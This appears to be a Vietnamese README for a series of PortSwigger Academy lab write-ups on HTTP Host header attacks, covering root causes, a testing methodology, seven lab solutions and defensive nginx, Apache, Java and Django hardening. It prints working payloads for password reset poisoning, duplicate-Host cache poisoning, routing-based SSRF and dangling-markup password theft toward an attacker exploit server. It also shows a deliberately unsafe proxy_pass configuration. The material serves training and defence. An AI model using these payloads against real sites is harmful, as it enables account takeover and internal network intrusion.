




Chào mừng bạn đến với chuyên đề nghiên cứu chuyên sâu về **HTTP Host Header Attacks** thuộc hệ thống **PortSwigger Web Security Academy**.

Trong kiến trúc World Wide Web hiện đại, `Host` header là một trường bắt buộc trong giao thức HTTP/1.1 và HTTP/2 (dưới dạng `:authority` pseudo-header). Mục đích nguyên bản của nó được chuẩn hóa trong **RFC 2068, RFC 2616 và RFC 7230** nhằm giải quyết bài toán khan hiếm địa chỉ IPv4 thông qua kỹ thuật **Name-based Virtual Hosting** — cho phép nhiều tên miền và ứng dụng web hoàn toàn độc lập cùng chia sẻ một địa chỉ IP vật lý và một listening port duy nhất.

Tuy nhiên, do `Host` header là một giá trị metadata hoàn toàn nằm dưới quyền kiểm soát của máy khách (client-controlled input), bất kỳ sự tin tưởng ngầm (implicit trust) nào từ phía tầng ứng dụng backend, kết hợp với sự bất đồng bộ trong quá trình phân tích cú pháp (parser differentials) giữa các lớp hạ tầng trung gian (Reverse Proxy, Load Balancer, Web Cache, API Gateway), đều sẽ mở ra những chuỗi tấn công (exploit chains) có sức tàn phá nghiêm trọng: **Password Reset Poisoning (chiếm đoạt tài khoản không cần tương tác), Web Cache Poisoning (Stored XSS diện rộng), Routing-based SSRF (thâm nhập mạng nội bộ), Authentication Bypass và Dangling Markup Credential Exfiltration**.

---

## 1. Danh mục bài Lab & Bản đồ kỹ thuật (Series Challenge Index)

Dưới đây là bảng đối chiếu tổng hợp 7 kịch bản tấn công thực tế từ cấp độ Apprentice đến Expert, được nghiên cứu và giải quyết chi tiết trong series này:

| Lab | Tên bài Lab | Cấp độ | Vector tấn công cốt lõi | Tác động khai thác |
| :---: | :--- | :---: | :--- | :--- |
| **01** | [Basic password reset poisoning](lab-01-basic-password-reset-poisoning/) | Apprentice | Dynamic Host Header Reflection in Email Generation | Đánh cắp secret reset token qua Exploit Server access logs $\to$ Toàn quyền chiếm đoạt tài khoản (Full ATO). |
| **02** | [Host header authentication bypass](lab-02-host-header-authentication-bypass/) | Apprentice | Header Spoofing for Localhost Authorization Bypass | Vượt qua hàng rào kiểm soát truy cập `/admin` bằng giả mạo nguồn gốc `localhost` $\to$ Xóa tài khoản nạn nhân. |
| **03** | [Web cache poisoning via ambiguous requests](lab-03-web-cache-poisoning-via-ambiguous-requests/) | Practitioner | Duplicate Host Header Parser Discrepancy (Cache vs Backend) | Cache proxy đọc Host 1 lưu Cache Key, backend đọc Host 2 nạp JS độc $\to$ Đầu độc web cache trang chủ, Stored XSS diện rộng. |
| **04** | [Routing-based SSRF](lab-04-routing-based-ssrf/) | Practitioner | Reverse Proxy Dynamic Upstream Routing Misconfiguration | Lợi dụng proxy định tuyến động theo Host header để quét dải mạng private `192.168.0.0/24` $\to$ Thâm nhập admin portal nội bộ. |
| **05** | [SSRF via flawed request parsing](lab-05-ssrf-via-flawed-request-parsing/) | Practitioner | Parser Differential giữa Absolute Request-URI và Host Header | Frontend xác thực dựa trên Absolute URI, backend định tuyến dựa trên Host $\to$ Vượt qua bộ lọc biên, SSRF xâm nhập mạng nội bộ. |
| **06** | [Host validation bypass via connection state attack](lab-06-host-validation-bypass-via-connection-state-attack/) | Practitioner | TCP Keep-Alive Connection State Dependency Vulnerability | Proxy chỉ validate Host ở request đầu tiên của kết nối TCP. Tái sử dụng socket cho request thứ hai $\to$ Vượt mặt WAF/Proxy truy cập LAN. |
| **07** | [Password reset poisoning via dangling markup](lab-07-password-reset-poisoning-via-dangling-markup/) | Expert | Host Port Parsing Defect Chained with Dangling Markup Injection | Proxy bỏ qua validation sau dấu hai chấm (`:`), backend nhúng raw Host vào email $\to$ Đánh cắp mật khẩu mà không cần nạn nhân click link. |

---

## 2. Phân tích nguyên nhân gốc rễ (Root Cause Analysis)

Qua quá trình mổ xẻ cấu trúc kỹ thuật của cả 7 bài lab, các lỗ hổng liên quan đến HTTP Host Header không bao giờ xuất hiện đơn lẻ mà là hệ quả trực tiếp từ **sự suy giảm ranh giới tin cậy (erosion of trust boundaries)** và **sự bất tương thích kiến trúc (architectural impedance mismatch)**:



### 2.1. Sự tin tưởng ngầm định vào Input của Client (Implicit Trust Fallacy)
Sai lầm phổ biến nhất của các nhà phát triển là giả định rằng `Host` header là một giá trị có thẩm quyền (authoritative) phản ánh chính xác cấu hình máy chủ web (`SERVER_NAME`). 
- Khi ứng dụng cần tạo đường dẫn kích hoạt tài khoản, link đặt lại mật khẩu hoặc import tài nguyên tĩnh, lập trình viên thường gọi trực tiếp các biến môi trường hoặc API runtime:
  - PHP: `$_SERVER['HTTP_HOST']`
  - Java/Servlet: `request.getHeader("Host")`
  - NodeJS/Express: `req.headers.host` hoặc `req.get('host')`
  - Django: `request.get_host()` (nếu không cấu hình `ALLOWED_HOSTS`)
- Bởi vì `Host` header nằm hoàn toàn ở tầng Application do kẻ tấn công toàn quyền điều khiển qua intercepting proxy, việc đưa trực tiếp giá trị này vào email hay mã HTML sẽ lập tức biến ứng dụng thành một cỗ máy sinh payload độc hại phục vụ cho kẻ tấn công (Lab 01, Lab 03).

### 2.2. Bất đồng bộ trong phân tích cú pháp (Parser Differentials)
Trong kiến trúc microservices và multi-tiered enterprise, một HTTP request phải đi qua nhiều mắt xích: WAF $\to$ CDN/Cache $\to$ Reverse Proxy $\to$ API Gateway $\to$ Backend Service. Mỗi mắt xích sử dụng một bộ parser HTTP riêng biệt, dẫn đến sự khác biệt chết người:
- **Xung đột giữa Request-URI tuyệt đối và Host Header (Lab 05):** Theo chuẩn **RFC 7230 §5.4**, nếu Request Line ở dạng Absolute-URI (`GET https://trusted.com/ HTTP/1.1`), giá trị của authority trong URI **phải** được ưu tiên hơn và ghi đè `Host` header. Tuy nhiên, nếu Frontend Proxy chỉ kiểm tra whitelist dựa vào Request Line, trong khi Backend Router lại lấy thông tin từ `Host` header để forward packet, kẻ tấn công có thể "nói một đằng với proxy, làm một nẻo với backend" nhằm kích hoạt SSRF.
- **Xung đột khi trùng lặp Host Header (Lab 03):** RFC 7230 quy định rõ ràng rằng một request hợp lệ chỉ được phép chứa **duy nhất 1 Host header**, và máy chủ **phải** trả về `400 Bad Request` nếu có từ 2 header trở lên. Mặc dù vậy, nhiều caching proxy (như Varnish, Squid cũ hoặc proxy tùy biến) chỉ đọc header đầu tiên để sinh Cache Key, trong khi backend runtime (như một số phiên bản NodeJS/PHP) lại lấy giá trị của header cuối cùng. Sự phân kỳ này cho phép lưu response bị đầu độc vào Cache Key của người dùng hợp lệ.

### 2.3. Lỗi xác thực trạng thái kết nối TCP (Connection State Confusion)
Để tối ưu hóa hiệu năng và giảm độ trễ bắt tay 3 bước TCP cũng như thỏa thuận mật mã TLS (TLS Handshake overhead), giao thức HTTP/1.1 và HTTP/2 áp dụng cơ chế Keep-Alive để tái sử dụng một kết nối TCP duy nhất cho nhiều request liên tiếp.
- Một số Reverse Proxy hoặc WAF áp dụng cơ chế xác thực **có trạng thái (stateful)** một cách sai lầm: Chúng chỉ kiểm tra `Host` header ở **request đầu tiên** trên kết nối TCP. Sau khi request này vượt qua whitelist, socket TCP đó được đánh dấu là "đáng tin cậy" (trusted socket).
- Các request tiếp theo được gửi qua chính socket TCP đang mở đó sẽ bị bỏ qua bước kiểm tra `Host` header. Kẻ tấn công lợi dụng việc này để ghép request độc hại ngay sau request hợp lệ trên cùng một kết nối (`single-connection pipeline`), chọc thủng hàng rào kiểm soát biên để vào thẳng mạng nội bộ (Lab 06).

### 2.4. Phân tích thiếu chặt chẽ thành phần Cổng (Permissive Port Parsing)
Cú pháp chuẩn của Host header là `Host = uri-host [ ":" port ]`. 
- Nhiều cơ chế phòng thủ thực hiện trích xuất domain bằng cách cắt chuỗi đơn giản: `host.split(':')[0]` và so khớp phần domain với whitelist, nhưng **bỏ qua hoàn toàn việc kiểm tra tính hợp lệ của port**. 
- Hệ thống ngây thơ cho rằng mọi thứ sau dấu hai chấm đều là một số nguyên dương từ 1 đến 65535. Khi ứng dụng backend nhận nguyên chuỗi và nhúng vào template email trong dấu nháy đơn (`'`), kẻ tấn công có thể chèn một chuỗi HTML dạng Dangling Markup ngay sau dấu hai chấm để nuốt dữ liệu nhạy cảm (Lab 07).

### 2.5. Định tuyến động không an toàn (Dynamic Upstream Routing)
Nhiều kỹ sư DevOps khi cấu hình Reverse Proxy (như Nginx, Apache Traffic Server, Envoy) đã mắc lỗi cấu hình nghiêm trọng khi chuyển tiếp request vào upstream:
```nginx
# CẤU HÌNH NGUY HIỂM CHẾT NGƯỜI
location / {
    proxy_pass http://$http_host;
}
```
Cấu hình này vô tình biến Reverse Proxy thành một **Open Forward Proxy** nội bộ. Khi kẻ tấn công gửi `Host: 192.168.0.x`, Reverse Proxy đứng ở vị trí đặc quyền (DMZ) sẽ tự động mở kết nối TCP đến chính địa chỉ IP nội bộ đó, vượt qua mọi tường lửa ngoại vi để thực thi Routing-based SSRF (Lab 04).

---

## 3. Quy trình & Tư duy kiểm thử (Methodology & Mindset)

Một Senior Penetration Tester / Security Researcher tiếp cận bề mặt tấn công HTTP Host Header với một nguyên lý bất biến: **"Bất kỳ giá trị nào do Client truyền lên đều là dữ liệu độc hại tiềm tàng, kể cả các header giao thức cơ bản."**

Quy trình kiểm thử chuyên nghiệp gồm 4 giai đoạn chuẩn hóa:



### Giai đoạn 1: Trinh sát & Định vị các điểm phản ánh (Recon & Reflection Mapping)
1. **Tìm kiếm điểm phản ánh trong Response:**
   - Quan sát xem giá trị `Host` có xuất hiện trong mã nguồn HTML không: `<link rel="canonical" href="...">`, `<script src="//[HOST]/...">`, `<form action="//[HOST]/...">`, thẻ `<base href="...">`, header `Location: https://[HOST]/...`.
2. **Kiểm tra luồng nghiệp vụ nhạy cảm qua Email:**
   - Thử nghiệm tính năng Quên mật khẩu (Forgot Password), Đăng ký tài khoản (User Registration/Activation), Đổi email, Thông báo hệ thống.
   - Kiểm tra xem đường dẫn gửi về hộp thư được sinh tĩnh từ cấu hình hay sinh động từ `Host` header.
3. **Phát hiện hạ tầng và Caching:**
   - Tìm kiếm các header chỉ thị Web Cache: `X-Cache`, `Age`, `CF-Cache-Status`, `X-Varnish`.
   - Tìm kiếm các endpoint quản trị tiềm năng qua file `robots.txt`, `sitemap.xml`, Swagger doc, hoặc các lỗi stack trace rò rỉ IP mạng private (10.x.x.x, 172.16.x.x, 192.168.x.x).

### Giai đoạn 2: Thử nghiệm kỹ thuật làm biến dạng Header (Differential Probes)
Để xác định cách hệ thống xử lý và phân tách các thành phần trung gian, kỹ sư kiểm thử tiến hành gửi các biến thể payload có kiểm soát:

1. **Thay đổi Host cơ bản & Override Headers:**
   - Thử nghiệm Host với tên miền kiểm thử bên ngoài (Burp Collaborator) hoặc `localhost` / `127.0.0.1`.
   - Thử nghiệm các header ghi đè proxy:
     ```http
     X-Forwarded-Host: attacker.com
     X-Host: attacker.com
     X-Forwarded-Server: attacker.com
     X-HTTP-Host-Override: attacker.com
     Forwarded: host=attacker.com
     ```
2. **Kỹ thuật Ambiguous / Duplicate Headers:**
   - Gửi 2 header `Host` liên tiếp để kiểm tra xem hệ thống có trả về `400 Bad Request` theo RFC 7230 hay không:
     ```http
     GET / HTTP/1.1
     Host: legitimate.com
     Host: test-probe.com
     ```
3. **Kỹ thuật Absolute-URI Probe:**
   - Đặt URL tuyệt đối ở Request Line kết hợp với Host header khác biệt:
     ```http
     GET https://legitimate.com/ HTTP/1.1
     Host: test-probe.com
     ```
4. **Kỹ thuật Port & Special Characters Injection:**
   - Kiểm tra bộ phân tích cú pháp port:
     ```http
     Host: legitimate.com:8080
     Host: legitimate.com:badport
     Host: legitimate.com:@attacker.com
     Host: legitimate.com:'<test>
     ```
5. **Kỹ thuật Single-Connection Pipeline (Keep-Alive):**
   - Sử dụng tính năng Request Grouping trong Burp Suite Repeater với chế độ `Send group (single connection)`.
   - Request 1: Gửi Host hợp lệ để thiết lập kết nối tin cậy.
   - Request 2: Gửi Host trỏ vào hạ tầng nội bộ hoặc tên miền tấn công ngay trên socket đó.

### Giai đoạn 3: Phân tích hành vi & Định tuyến (Routing Analysis)
- **HTTP 200 / 302 với nội dung phản ánh:** Backend tin tưởng Host header và trực tiếp render dữ liệu.
- **HTTP 403 Forbidden:** WAF hoặc Frontend Proxy đang chặn các Host không nằm trong whitelist. Chuyển hướng sang kỹ thuật bypass qua Absolute URL (Lab 05) hoặc Connection State (Lab 06).
- **HTTP 504 Gateway Timeout:** Reverse Proxy đang cố phân giải DNS hoặc thiết lập kết nối TCP đến Host được truyền vào nhưng không nhận được phản hồi. **Đây là dấu hiệu vàng xác nhận có Routing-based SSRF** (Lab 04).
- **DNS / HTTP Interaction trên Burp Collaborator:** Bằng chứng không thể chối cãi rằng máy chủ proxy đang gửi outbound request dựa trên Host header.

### Giai đoạn 4: Vũ khí hóa & Khai thác tối đa (Weaponization)
Tùy thuộc vào kết quả thăm dò, kẻ tấn công sẽ áp dụng ma trận khai thác tương ứng:
- Nếu phản ánh trong email $\to$ Khai thác **Password Reset Poisoning** hoặc **Dangling Markup Injection**.
- Nếu có Caching Proxy $\to$ Khai thác **Web Cache Poisoning** để kiểm soát toàn bộ traffic của người dùng.
- Nếu Proxy định tuyến động $\to$ Tự động hóa bằng Burp Intruder để quét dải mạng private CIDR (`192.168.0.0/24`), truy cập internal API và leo thang đặc quyền.

---

## 4. Bóc tách chuyên sâu 7 kỹ thuật tấn công & Thực tiễn bài Lab



### 4.1. Password Reset Poisoning cổ điển (Lab 01)
- **Cơ chế:** Khi người dùng yêu cầu reset mật khẩu, backend đọc `Host: exploit-server.net` để tạo link `https://exploit-server.net/forgot-password?temp-forgot-password-token=TOKEN`.
- **Hành vi người dùng:** Nạn nhân nhận email chính thức từ hệ thống nhưng link bên trong trỏ về Exploit Server. Khi click, token nhạy cảm gửi về Access Log của attacker.
- **Khai thác thực tế:** Attacker gửi request reset cho nạn nhân `carlos`, trích xuất token từ log và đổi mật khẩu mới.

### 4.2. Giả mạo Host để vượt qua kiểm soát truy cập (Lab 02)
- **Cơ chế:** Quản trị viên tin rằng endpoint `/admin` an toàn vì đã có đoạn code kiểm tra:
  ```javascript
  if (req.headers['host'] === 'localhost') { renderAdminPanel(); }
  ```
- **Lỗ hổng:** Kẻ tấn công gửi request từ Internet tới IP public nhưng gắn header `Host: localhost`. Frontend chuyển tiếp request vào backend mà không lọc, bypass thành công lớp bảo vệ để xóa tài khoản `carlos`.

### 4.3. Web Cache Poisoning qua Duplicate Host Header (Lab 03)
- **Cơ chế:** Đưa 2 header Host vào request:
  ```http
  GET / HTTP/1.1
  Host: victim-lab.net
  Host: exploit-server.net
  ```
- **Sự phân kỳ:** Caching Proxy chỉ đọc `Host: victim-lab.net` và gán Cache Key là `GET / victim-lab.net`. Backend lại đọc header thứ hai `exploit-server.net` và render:
  ```html
  <script src="//exploit-server.net/resources/js/tracking.js"></script>
  ```
- **Vũ khí hóa:** Attacker host file JS chứa `alert(document.cookie)` tại Exploit Server. Phản hồi độc hại bị lưu vào cache của trang chủ. Mọi người dùng truy cập trang chủ đều bị dính Stored XSS tự động.

### 4.4. Routing-based SSRF thâm nhập mạng riêng (Lab 04)
- **Cơ chế:** Reverse proxy xử lý dynamic upstream routing. Attacker gửi request với `Host` trỏ vào IP mạng nội bộ.
- **Kỹ thuật trinh sát:** Dùng Burp Intruder quét dải CIDR `192.168.0.§0-255§`. Các IP không tồn tại trả về `504 Gateway Timeout`. IP có admin server (`192.168.0.112`) trả về `302 Found`.
- **Bypass CSRF:** Gửi request lấy mã CSRF token trong form, sau đó gửi `POST /admin/delete` kèm CSRF token để xóa tài khoản `carlos`.

### 4.5. SSRF qua Parser Differential giữa Absolute URI và Host (Lab 05)
- **Cơ chế:** Frontend chặn mọi request có `Host: 192.168.0.x` bằng mã lỗi `403 Forbidden`. Tuy nhiên, Frontend lại ưu tiên đọc tên miền tại Request Line nếu nó ở định dạng Absolute URL:
  ```http
  GET https://vulnerable-lab.net/ HTTP/2
  Host: 192.168.0.211
  ```
- **Khai thác:** Frontend thấy URL hợp lệ nên cho qua. Backend router lại căn cứ vào `Host` để chuyển tiếp gói tin đến `192.168.0.211`. Kết hợp Burp Intruder tìm thấy máy chủ quản trị nội bộ và thực hiện xóa user.

### 4.6. Vượt mặt bộ lọc Host qua trạng thái kết nối Keep-Alive (Lab 06)
- **Cơ chế:** Lỗi phụ thuộc trạng thái kết nối (Connection-State Assumption). Reverse proxy chỉ validate Host ở request đầu tiên trên TCP socket.
- **Khai thác:** Sử dụng Burp Repeater Tab Group ở chế độ `Send group (single connection)`:
  - *Request 1:* `GET / HTTP/1.1` với `Host: victim-lab.net` (Hợp lệ $\to$ Socket được cấp cờ Trusted).
  - *Request 2:* `GET /admin HTTP/1.1` với `Host: 192.168.0.1` (Gửi ngay trên socket đó $\to$ Bỏ qua bước kiểm tra $\to$ Thành công truy cập giao diện quản trị).

### 4.7. Dangling Markup Injection trích xuất mật khẩu không cần click (Lab 07)
- **Cơ chế:** Proxy chỉ kiểm tra hostname trước dấu `:` (regex `^([^:]+)`), cho phép chuỗi tùy ý phía sau dấu `:`. Backend nhúng nguyên chuỗi `Host` vào email mà không mã hóa HTML:
  ```html
  <p>Please <a href='https://victim.net:[INJECTION]/login'>click here</a>...</p>
  <p>Your new password is: [SECRET_PASSWORD]</p>
  ```
- **Kỹ thuật Dangling Markup:** Attacker chèn payload sau dấu hai chấm:
  ```text
  Host: victim-lab.net:'<a href="//exploit-server/?
  ```
- **Hiện tượng Markup Swallowing:** Dấu nháy đơn `'` đóng sớm thuộc tính `href` cũ. Thẻ `<a href="//exploit-server/?` mới được mở bằng dấu nháy kép (`"`). Trình duyệt hoặc ứng dụng mail sẽ nuốt toàn bộ ký tự tiếp theo (kể cả thẻ đóng `</a>` và đoạn text chứa mật khẩu tạm thời) cho tới khi gặp dấu nháy kép tiếp theo. Khi nạn nhân mở email và kích hoạt link, toàn bộ mật khẩu bị tống thẳng vào URL query string gửi về Exploit Server logs.

---

## 5. Chiến lược phòng thủ toàn diện (Defense-in-Depth Hardening Blueprint)

Để triệt tiêu hoàn toàn bề mặt tấn công HTTP Host Header, các tổ chức không thể chỉ trông cậy vào một lớp bảo vệ đơn lẻ mà phải triển khai kiến trúc phòng thủ đa tầng:



### 5.1. Cấu hình chuẩn hóa tại tầng Reverse Proxy & WAF

#### 1. Thiết lập Default Catch-All Virtual Host để thả kết nối không hợp lệ
Mọi Reverse Proxy phải có một block mặc định để từ chối các request có Host header không khớp với bất kỳ domain hợp lệ nào:

**Nginx Configuration:**
```nginx
# Default Catch-All Server Block
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    
    # Đóng kết nối ngay lập tức không trả về dữ liệu (HTTP 444)
    # hoặc trả về lỗi 400 Bad Request
    return 444;
}

# Virtual Host hợp lệ
server {
    listen 80;
    listen 443 ssl;
    server_name example.com www.example.com;

    location / {
        # KHÔNG BAO GIỜ DÙNG proxy_pass http://$http_host;
        # Luôn định tuyến tĩnh đến upstream group
        proxy_pass http://backend_cluster;
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-For $remote_addr;
    }
}
```

**Apache HTTP Server Configuration:**
```apache
# VirtualHost mặc định đầu tiên để chặn các Host không xác định
<VirtualHost *:80>
    ServerName default
    <Location />
        Require all denied
    </Location>
</VirtualHost>

<VirtualHost *:80>
    ServerName example.com
    ServerAlias www.example.com
    DocumentRoot /var/www/html
</VirtualHost>
```

#### 2. Kiểm tra tính hợp lệ của Port và từ chối Duplicate Headers
- Đảm bảo WAF hoặc Proxy tuân thủ nghiêm ngặt **RFC 7230 §5.4**: Nếu một request có nhiều hơn một Host header, lập tức phản hồi `400 Bad Request`.
- Bắt buộc kiểm tra định dạng port sau dấu hai chấm. Nếu chứa bất kỳ ký tự nào ngoài chữ số `[0-9]` hoặc giá trị nằm ngoài khoảng `1 - 65535`, phải hủy bỏ request.

#### 3. Chuẩn hóa Request Target (URI Normalization)
Proxy phải đồng bộ hóa giá trị giữa Request Line và Host header. Nếu client gửi Absolute URL (`GET https://example.com/admin HTTP/1.1`), proxy phải trích xuất authority để ghi đè Host header hoặc chuyển đổi URI về Origin-form (`GET /admin HTTP/1.1`) trước khi forward vào backend.

#### 4. Kiểm tra độc lập từng Request trên Persistent Connection (Stateless Inspection)
Tuyệt đối không lưu cache trạng thái xác thực trên TCP socket Keep-Alive. Mọi HTTP request đi qua kết nối persistent phải được parse và validate độc lập đối với mọi header.

### 5.2. Củng cố tầng Ứng dụng (Application Source Code Hardening)

#### 1. Sử dụng biến cấu hình tĩnh (Static Base URL)
Không bao giờ sử dụng `request.getHeader("Host")` hay `$_SERVER['HTTP_HOST']` để sinh URL trong email, liên kết thanh toán hoặc liên kết reset mật khẩu:

**Mã nguồn Java / Spring Boot an toàn:**
```java
@Service
public class PasswordResetService {
    @Value("${app.base-url}") // Lấy từ biến môi trường cố định: https://example.com
    private String baseUrl;

    public void sendResetEmail(User user, String token) {
        // Sinh link từ baseUrl tĩnh
        String resetLink = baseUrl + "/forgot-password?token=" + URLEncoder.encode(token, StandardCharsets.UTF_8);
        emailClient.send(user.getEmail(), "Password Reset Request", resetLink);
    }
}
```

**Mã nguồn Python / Django an toàn:**
Cấu hình nghiêm ngặt danh sách `ALLOWED_HOSTS` trong `settings.py`:
```python
# settings.py
ALLOWED_HOSTS = ['example.com', 'www.example.com']
USE_X_FORWARDED_HOST = False  # Chỉ bật nếu proxy phía trước đã sanitize cẩn thận
```

#### 2. Áp dụng đường dẫn tương đối (Root-Relative URLs) cho tài nguyên tĩnh
Để ngăn ngừa Web Cache Poisoning, các thẻ import JS, CSS, hình ảnh trong HTML template phải sử dụng đường dẫn tương đối:
```html
<!-- AN TOÀN: Dùng Root-Relative Path -->
<script type="text/javascript" src="/resources/js/tracking.js"></script>

<!-- NGUY HIỂM: Dùng Host Header động -->
<!-- <script type="text/javascript" src="//[HOST]/resources/js/tracking.js"></script> -->
```

#### 3. Mã hóa ngữ cảnh HTML Entity Encoding
Mọi dữ liệu phản ánh từ request vào template HTML hoặc email đều phải trải qua cơ chế mã hóa ký tự đặc biệt (`<` thành `&lt;`, `>` thành `&gt;`, `'` thành `&#39;`, `"` thành `&quot;`) để vô hiệu hóa triệt để tấn công Dangling Markup.

### 5.3. Củng cố tầng Mạng & Kiến trúc Zero-Trust (Network Layer Defense)
1. **Phân vùng mạng nghiêm ngặt (Network Segmentation):**
   - Đặt Reverse Proxy trong vùng DMZ riêng biệt.
   - Thiết lập tường lửa nội bộ (Internal Firewall / Security Groups) ngăn chặn Reverse Proxy kết nối tới các dải mạng quản trị hoặc metadata server (`169.254.169.254`).
2. **Xác thực độc lập cho dịch vụ nội bộ (Zero-Trust Architecture):**
   - Không bao giờ mặc định rằng traffic bắt nguồn từ mạng LAN hay từ Reverse Proxy là đáng tin cậy.
   - Mọi portal quản trị phải yêu cầu phiên xác thực độc lập, SSO, hoặc mutual TLS (mTLS) giữa các microservices.

---

> [!TIP]
> **Tài liệu tham khảo & Tiêu chuẩn giao thức:**
> - [RFC 7230: Hypertext Transfer Protocol (HTTP/1.1) - Message Syntax and Routing (Section 5.4: Host)](https://datatracker.ietf.org/doc/html/rfc7230#section-5.4)
> - [PortSwigger Research: Cracking the lens - targeting HTTP's hidden surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-surface)
> - [OWASP Top 10: Server-Side Request Forgery & Security Misconfiguration](https://owasp.org/Top10/)
